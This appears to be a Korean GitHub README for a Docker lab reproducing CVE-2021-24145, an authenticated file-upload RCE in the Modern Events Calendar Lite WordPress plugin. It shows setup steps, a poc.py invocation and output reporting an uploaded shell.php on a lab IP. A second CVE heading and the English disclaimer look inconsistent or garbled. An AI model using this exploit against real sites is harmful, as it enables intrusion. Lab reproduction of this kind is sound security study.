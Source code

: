 # CVE-2021-24145
WordPress File Upload Vulnerability, Modern Events Calendar Lite WordPress plugin before 5.16.5
https://nvd.nist.gov/vuln/detail/CVE-2021-24145

# CVE-2021-32644
위 취약점은 Modern Events Calendar Lite WordPress plugin에서 발견된 File upload 취약점입니다. 

# 설치 및 실행 순서

#### 1. WordPress 설치
설치를 진행할 때, docker-compose.yml 파일에서 포트포워딩을 진행해주시기 바랍니다. 
<pre> $ docker-compose up  </pre>

#### 2. WordPress initial & Plugin installation
http://[web-server ip]:port/로 이동합니다.
기본적인 설치를 진행합니다.
<img src="https://user-images.githubusercontent.com/43310843/129432375-9bbf1bc8-9eb1-41cb-9f76-fdb2b686cbde.png" width="700">
<br>[Plugins] -> [Add New] -> [Upload Plugin] 이동합니다. 
<br>modern-events-calendar-lite.5.16.2.zip 을 업로드 및 설치합니다. 
<img src="https://user-images.githubusercontent.com/43310843/129432458-b3d22de4-234a-4f29-9bad-722f39f8010a.png" width="700">
<br>아래 화면은 플러그인 설치가 완료된 모습입니다. 
<img src="https://user-images.githubusercontent.com/43310843/129432806-fdb03a36-883c-4b6b-8f3a-9ea7e89d9644.png" width="700">
<br>설치가 완료되었으면 플러그인을 활성화 시킵니다. 
#### 3. PoC
python3 poc.py -T [URL] -P [PORT] -U [Path] -u [admin] -p [password]
<pre>
 $python3 poc.py -T 172.30.1.48 -P 80 -U / -u 0ppr2s -p 123456

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE

                * @Hacker5preme




[+] Authentication successfull !

[+] Shell Uploaded to: http://172.30.1.48:80//wp-content/uploads/shell.php
</pre>
![image](https://user-images.githubusercontent.com/43310843/129433145-435ee861-ff32-459e-a15b-6ec19980cff4.png)

# 출처
https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

# 주의 사항
#### 위 취약점을 불법으로 악용할 시, 법적 책임을 지지 않습니다.
#### If you illegally exploit the above vulnerabilities, you will not be held liable.
#### docker 버전을 최신화 해야 합니다.

